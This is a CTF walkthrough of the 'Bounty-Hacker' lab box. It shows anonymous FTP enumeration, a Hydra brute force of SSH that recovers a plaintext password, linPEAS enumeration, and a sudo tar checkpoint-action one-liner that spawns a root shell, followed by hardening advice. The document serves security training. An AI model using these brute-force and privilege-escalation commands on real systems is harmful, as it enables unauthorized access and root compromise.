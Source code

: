# Bounty-Hacker -- CTF Writeup -- FTP Enumeration, SSH Brute Force, and Privilege Escalation via tar



> Short summary  
> Gained initial access via anonymous FTP which contained a username hint and a wordlist. Performed a password guess (Hydra) against SSH for `lin`, obtained a user shell and `user.txt`. Ran linPEAS to enumerate privilege escalation vectors and discovered `tar` with SUID. Used a known GTFObins sudo `tar` abuse to spawn a root shell and read `root.txt`.

---

## Target
- IP: `10.10.169.105`
- Scan date (local notes): 2025-09-12

---

## 1 — Recon / Port scan

Command:
```bash
nmap -sS 10.10.169.105
```

Key output:
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Notes: FTP, SSH and HTTP were open. Proceeded to check FTP first since anonymous logins are often enabled on CTF boxes.

---

## 2 — FTP enumeration

Connected as anonymous:
```
ftp> open 10.10.169.105
220 (vsFTPd 3.0.5)
Name (10.10.169.105:root): anonymous
230 Login successful.
ftp> ls
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

Downloaded and viewed files.

`task.txt`:
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
- Observations: signed by `lin` — likely a username on the host.

`locks.txt`:
- Contained a list of words (used as a potential password list / dictionary).

Conclusion: `lin` is a likely user. `locks.txt` looks like a suitable wordlist for password guessing.

---

## 3 — SSH brute-force (password-guess)

Used Hydra with the `locks.txt` dictionary:
```bash
hydra -l lin -P locks.txt ssh://10.10.169.105
```

Hydra result:
```
[22][ssh] host: 10.10.169.105   login: lin   password: RedDr4gonSynd1cat3
```

Logged in via SSH:
```bash
ssh lin@10.10.169.105
# cat ~/Desktop/user.txt
THM{%flag removed%}
```

Obtained `user.txt` — user-level compromise achieved.

---

## 4 — Privilege escalation enumeration

Goal: escalate to root and read `/root/root.txt`.

Transferred linPEAS and ran it:
```bash
scp linpeas.sh lin@10.10.169.105:/tmp/
# on target
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

Important linPEAS finding: `/bin/tar` is present and has SUID or is usable via `sudo` (linPEAS indicated a sudo rule or SUID bit relevant to `tar`).

Searched GTFObins for `tar` and found techniques allowing shell execution when `tar` is run with specific options / via sudo.

---

## 5 — Privilege escalation — abusing `tar` via sudo

Observed that `tar` can be invoked through sudo. The following command was used to spawn a shell as root:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Explanation:
- `--checkpoint=1` and `--checkpoint-action=exec=/bin/sh` cause `tar` to run `/bin/sh` as the checkpoint action.
- When run under `sudo` (and tar is allowed via sudo), this results in an interactive shell as root.

After running the command:
```
# whoami
root
```

---

## 6 — Root flag

With a root shell:
```bash
cat /root/root.txt
THM{%Flag Removed%}
```

Root flag obtained.

---

## 7 — Post-exploit notes & cleanup
- On real systems, avoid leaving tools or credentials. For CTFs, be mindful of artifacts.
- Files transferred (e.g., `linpeas.sh`) should be removed after use if appropriate:
  ```bash
  rm /tmp/linpeas.sh
  ```

---

## 8 — Mitigation & recommendations

1. **Avoid password reuse / weak/default passwords**  
   - The box used a guessable/weak password found in an exposed file. On production systems, never store passwords in plaintext files accessible via anonymous services. Enforce strong passwords and MFA where possible.

2. **Harden FTP / remove anonymous access**  
   - Disable anonymous FTP or restrict the served directories. Use secure file transfer services (SFTP/FTPS) instead.

3. **Least privilege for sudo**  
   - Review `/etc/sudoers` and sudoers.d to ensure users are not allowed to run arbitrary programs that can be abused to escalate privileges. Avoid allowing programs that accept arbitrary flags that can execute shell commands (or restrict them tightly).

4. **SUID binaries auditing**  
   - Remove unnecessary SUID/SGID bits from binaries. Audit all SUID binaries and validate their purpose. Use automated tools to check for known abuse patterns (e.g., GTFObins entries).

5. **Detect improper command usage**  
   - Monitor for suspicious use of utilities (`tar`, `less`, `vi`, `awk`, etc.) under sudo, and alert on unusual usages.

6. **Secrets management**  
   - Do not commit or expose secrets via services (FTP, web directories). Use secret managers for production credentials.

---

## 9 — References
- linPEAS — Privilege escalation auditing script (PEASS-ng).  
- GTFObins — collection of Unix binaries that can be abused to escalate privileges: https://gtfobins.github.io/gtfobins/tar/#sudo

---

## 10 — Appendix: commands used (extracted from notes)

```bash
# Recon
nmap -sS 10.10.169.105

# FTP
ftp 10.10.169.105
# login: anonymous
# download locks.txt, task.txt

# SSH brute force
hydra -l lin -P locks.txt ssh://10.10.169.105

# SSH to user
ssh lin@10.10.169.105
cat ~/Desktop/user.txt

# Transfer linPEAS
scp linpeas.sh lin@10.10.169.105:/tmp/
# on target
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh

# Privilege escalation (GTFObins technique)
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# Root actions
whoami
cat /root/root.txt
```
